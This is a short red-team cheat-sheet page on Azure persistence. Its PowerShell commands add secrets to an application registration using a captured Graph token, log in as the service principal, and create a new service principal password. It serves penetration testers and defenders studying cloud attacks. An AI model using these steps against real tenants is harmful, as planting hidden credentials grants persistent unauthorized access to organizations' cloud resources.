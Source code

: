 # Azure Persistence

## Add Secrets to Application

* Add secrets with [lutzenfried/OffensiveCloud/Add-AzADAppSecret.ps1](https://github.com/lutzenfried/OffensiveCloud/blob/main/Azure/Tools/Add-AzADAppSecret.ps1)
    ```powershell
    PS > . C:\Tools\Add-AzADAppSecret.ps1
    PS > Add-AzADAppSecret -GraphToken $graphtoken -Verbose
    ```

* Use secrets to authenticate as Service Principal
    ```ps1
    PS > $password = ConvertTo-SecureString '<SECRET/PASSWORD>' -AsPlainText -Force
    PS > $creds = New-Object System.Management.Automation.PSCredential('<AppID>', $password)
    PS > Connect-AzAccount -ServicePrincipal -Credential $creds -Tenant '<TenantID>'
    ```

## Add Service Principal

* Generate a new service principal password/secret
    ```ps1
    Import-Module Microsoft.Graph.Applications
    Connect-MgGraph 
    $servicePrincipalId = "<service-principal-id>"

    $params = @{
        passwordCredential = @{
            displayName = "NewCreds"
        }
    }
    Add-MgServicePrincipalPassword -ServicePrincipalId $servicePrincipalId -BodyParameter $params
    ```


## References

* [Maintaining Azure Persistence via automation accounts - Karl Fosaaen - September 12, 2019](https://blog.netspi.com/maintaining-azure-persistence-via-automation-accounts/)
* [Microsoft Graph - servicePrincipal: addPassword](https://learn.microsoft.com/en-us/graph/api/serviceprincipal-addpassword?view=graph-rest-1.0&tabs=powershell)